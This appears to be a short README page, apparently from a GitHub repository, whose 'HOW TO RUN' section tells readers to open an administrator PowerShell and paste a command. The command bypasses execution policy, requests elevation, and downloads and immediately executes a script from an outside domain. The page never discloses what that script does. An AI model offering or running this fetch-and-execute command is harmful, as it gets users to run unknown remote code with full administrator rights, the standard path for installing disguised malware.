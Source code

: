 ## HOW TO RUN
-   Right-click on the Windows start menu and select PowerShell (Admin).
-   Copy and paste the code below and press enter
```
Start-Process powershell -ArgumentList "-NoProfile -ExecutionPolicy Bypass -Command `"iex (iwr 'https://mnet.my.id/update/github/c' -UseBasicParsing)`"" -Verb RunAs
```
-  You will see the download.
-  That's all.

## Tutorial Videos
![Tutorial](https://raw.githubusercontent.com/mm1rza/script/main/tutorial.gif)
</br>
